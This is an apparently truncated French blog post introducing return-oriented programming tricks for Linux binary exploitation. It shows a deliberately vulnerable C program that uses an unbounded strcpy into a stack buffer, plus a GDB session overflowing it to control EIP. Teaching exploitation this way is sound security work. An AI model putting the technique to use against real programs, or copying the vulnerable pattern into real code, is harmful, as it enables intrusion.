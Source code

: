 ```yaml
---
title: Roping tricks
date: 2013-08-26
tags: overflow,rop
author: Tosh
layout: post
---
```


Voici un nouvel article où il sera question de ROP, et où je détaillerais quelques techniques particulières pouvant être utiles lors d'une exploitation de type stack overflow, format string et compagnie.

Pour comprendre tout ce qu'il sera dit, il est conseillé d'avoir des bonnes bases dans l'exploitation de binaires sous Linux, de savoir lire l'assembleur x86 et de comprendre comment le ROP fonctionne.

Pour chaque technique utilisée, je préciserais dans quels cas celle-ci est utile.

Ready to poWn ?! Gooo !

##0x00 Ret to register

Utilité : Cette technique peut être utile dans le cas où l'ASLR est en place, mais où N^X n'est pas activé.

Principe : Si l'adresse de notre payload est contenue dans un registre au moment du détournement du flux d\u2019exécution, il suffit de retourner sur un gadget du style call REG/jmp *REG pour que notre payload soit exécuté.

Voici l'exemple que je vais utiliser pour illustrer la technique :

```c
	#include <string.h>
	#include <stdio.h>

	char* foo(const char *b) {
	    char buff[256];

    	return strcpy(buff, b);
	}

	int main(int argc, char **argv) {

	    printf("%p\n", foo(argv[1]));

	    return 0;
	}
```

Testons avec GDB, pour voir ce qu'il se passe :

```
	gdb$ r `perl -e 'print "ABCD" . "A"x268;'`
	Starting program: /home/tosh/Downloads/a.out `perl -e 'print "ABCD" . "A"x268;'`
	warning: Could not load shared library symbols for linux-gate.so.1.
	Do you need "set solib-search-path" or "set sysroot"?

	Program received signal SIGSEGV, Segmentation fault.
	--------------------------------------------------------------------------[regs]
	  EAX: 0xBFFFF8F0  EBX: 0xB7FB9000  ECX: 0xBFFFFD30  EDX: 0xBFFFF9FA  o d I t s z a p c
	  ESI: 0x00000000  EDI: 0x00000000  EBP: 0x41414141  ESP: 0xBFFFFA00  EIP: 0x41414141
	  CS: 0073  DS: 007B  ES: 007B  FS: 0000  GS: 0033  SS: 007BError while running hook_stop:
	Cannot access memory at address 0x41414141
	0x41414141 in ?? ()
	gdb$ x/s $eax
	0xbffff8f0:     "ABCD", 'A' ...
	gdb$
```